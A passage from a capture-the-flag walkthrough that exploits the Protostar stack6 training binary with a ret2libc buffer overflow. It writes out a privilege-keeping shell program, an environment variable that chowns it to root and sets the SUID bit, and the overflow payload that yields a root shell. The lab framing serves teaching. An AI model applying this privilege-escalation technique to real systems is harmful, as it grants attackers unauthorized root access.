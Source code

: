 A far simpler method is to have our exploit set the SUID bit on a binary that
calls `/bin/bash`. First, we write our `shell.c`.

```c
#include <stdlib.h>
#include <unistd.h>

int main(int argc, char **argv, char **envp) {
  gid_t gid;
  uid_t uid;

  gid = getegid();
  uid = geteuid();

  setresgid(gid, gid, gid);
  setresuid(uid, uid, uid);

  system("/bin/bash");
}
```

Next, we compile it.

```shell
user@protostar:~$ gcc shell.c -o shell
```

We set the environmental variable `SHELLME` to the shell command we want to
execute. In this case, we will set the owner of `/home/user/shell` to root and
give it the SUID bit.

```shell
user@protostar:~$ export SHELLME="/bin/chown root:root /home/user/shell; /bin/chmod 4755 /home/user/shell"
user@protostar:~$ ./getenv SHELLME /opt/protostar/bin/stack6
SHELLME will be at 0xbfffff16
```

Remember the "return address" bit of the stack from earlier? That is where our
program will jump to after `system()` is done. While it has no bearing on
successful exploitation, we can set it to the `exit()` function to exit
cleanly.

```shell
(gdb) print exit
$1 = {<text variable, no debug info>} 0xb7ec60c0 <*__GI_exit>
```

Putting it all together, we end up with a working exploit.

```shell
user@protostar:~$ python -c "print 'A' * 80 + '\xb0\xff\xec\xb7' + '\xc0\x60\xec\xb7' + '\x16\xff\xff\xbf'" | /opt/protostar/bin/stack6
input path please: got path AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA`
user@protostar:~$ ./shell
root@protostar:~# whoami
root
```
